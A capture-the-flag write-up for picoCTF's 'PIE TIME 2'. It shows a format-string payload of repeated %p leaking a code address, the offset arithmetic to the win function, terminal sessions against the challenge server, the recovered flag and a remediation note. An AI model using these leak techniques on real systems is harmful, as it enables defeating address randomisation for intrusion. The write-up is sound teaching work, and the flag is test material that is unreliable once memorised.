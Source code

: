`main` starts at 0x1400 and calls `call_functions` at 0x143c, and the line right after the function call is at 0x1441. Therefore, I decided to look for addresses that might end in these numbers.

```
mms2379@spoc:~/ctf/pie_time2$ ./vuln 
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x600f8ae552a1 0xfbad2288 0x600f8ae552dc (nil) 0x600f8ae552a0 (nil) 0x70f4a581b780 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7f000a702520 0x7ffdd74ed6e8 0xc6ffdfe5a02e6b00 0x7ffdd74ed5d0 0x600f50bea441 0x1
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

After printing some more addresses (20, to be exact), I see this address: 0x600f50bea441. This matches the address of the line directly after the `call_functions` call, and it is not as large as the other numbers, so it's likely not a stack address. Let's calculate the difference between 0x1441 and the top of the `win` function: 0x1441 - 0x136a = 0xd7. On the next run of the program, let's try doing the address at the 19th `%p` - 0xd7 to see if that gets us to `win`:

```
mms2379@spoc:~/ctf/pie_time2$ nc rescued-float.picoctf.net 62828
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x5a1c306e92a1 (nil) 0x5a1c306e92dd 0x7fffa2f42b10 0x7c 0x7fffa2f86228 0x760d6012a6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 0x5a1c2f1541c0 0x24da89febb514f00 0x7fffa2f42b70 0x5a1c2f154441 (nil)
```

We do: 0x5a1c2f154441 - 0xd7 = 0x5a1c2f15436a

```
mms2379@spoc:~/ctf/pie_time2$ nc rescued-float.picoctf.net 62828
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x5a1c306e92a1 (nil) 0x5a1c306e92dd 0x7fffa2f42b10 0x7c 0x7fffa2f86228 0x760d6012a6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 0x5a1c2f1541c0 0x24da89febb514f00 0x7fffa2f42b70 0x5a1c2f154441 (nil) 
 enter the address to jump to, ex => 0x12345: 0x5a1c2f15436a
You won!
picoCTF{p13_5h0u1dn'7_134k_2509623b}
```

## Remediation

The big vulnerability here is the format string vulnerability. It allowed us to leak addresses and therefore go to other functions with some simple calculations. Always use format specifiers in your `printf` statements!

# Sources/Credits

Written by Madalina Stoicov

- https://cs4157.github.io/www/2025-1/lect/17-linking-2.html 
- https://owasp.org/www-community/attacks/Format_string_attack 
